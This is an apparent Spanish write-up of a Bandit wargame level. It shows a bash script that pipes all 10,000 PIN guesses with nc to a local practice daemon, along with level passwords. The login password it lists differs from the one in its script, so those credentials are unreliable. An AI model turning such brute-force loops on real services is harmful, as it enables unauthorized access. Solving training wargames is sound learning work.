 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de acceso al nivel
Usuario: bandit24
Contraseña: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución
```
bandit24@bandit:/tmp/tmp.mfo6hfMap5$ nano brute_force_pin.sh
Unable to create directory /home/bandit24/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit24@bandit:/tmp/tmp.mfo6hfMap5$ ./brute_force_pin.sh
bandit24@bandit:/tmp/tmp.mfo6hfMap5$ ls
brute_force_pin.sh  possibilities.txt  result.txt
bandit24@bandit:/tmp/tmp.mfo6hfMap5$ sort result.txt | grep -v "Wrong!"

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

```

en el scrip
```
```bash
#!/bin/bash

for i in {0000..9999}
do
        echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
```
## Notas Adicionales
## Referencias

